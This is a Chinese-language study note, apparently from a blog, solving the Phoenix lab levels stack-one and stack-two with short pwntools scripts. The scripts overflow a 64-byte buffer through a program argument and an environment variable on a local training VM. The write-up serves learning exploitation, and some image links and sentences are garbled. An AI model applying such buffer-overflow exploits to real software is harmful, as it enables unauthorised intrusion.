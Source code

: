 ```yaml
---
title: "[pwn笔记1]stack-one和stack-two (Phoenix)"
urlname: "[pwn笔记1]stack-one和stack-two (Phoenix)"

date: February 15, 2023 9:28 PM
tags: [pwn, stack]
---
```

这两道非常简单，而且只有数据读入方式的区别。跟zero一样，只是对覆盖的数据有要求。

## stack-one

将程序第一个参数`strcpy`到字符串。

![https://s2.loli.net/2023/02/15/P3IYOneKUiS6vNV.png](../images/[pwn笔记1]stack-one和stack-two%20(Phoenix)%206c166cabf3d247c5a0c5f5952da34633/P3IYOneKUiS6vNV.png)上参数。

pwntools的sh.run可以接收字节数组作为参数，里面可包含启动参数。（看了下文档，对于run方法：Backward compatibility.  Use [system()](https://docs.pwntools.com/en/stable/tubes/ssh.html?highlight=ssh#pwnlib.tubes.ssh.ssh.system)
）

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p32(0x496c5962)

sh = shell.run(b"/opt/phoenix/amd64/stack-one " + s)
print(sh.recvlines(2))

```

## stack-two

这次是写到环境变量里。

![https://s2.loli.net/![https://s2.loli.net/2023/02/15/NhRfz7Ciw8UavO4.png](../assets/[pwn笔记1]stack-one和stack-two%20(Phoenix)%206c166cabf3d247c5a0c5f5952da34633/NhRfz7Ciw8UavO4.png)会出问题，我们要求写入的是32位数据，不应该用p64，用了就会自动补0，然后报错。

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p32(0x0d0a090a)
print(s)
s = s.decode()
print(s)
sh = shell.run(b"/opt/phoenix/amd64/stack-two", env={"ExploitEducation": s})
print(sh.recvlines(2))

```
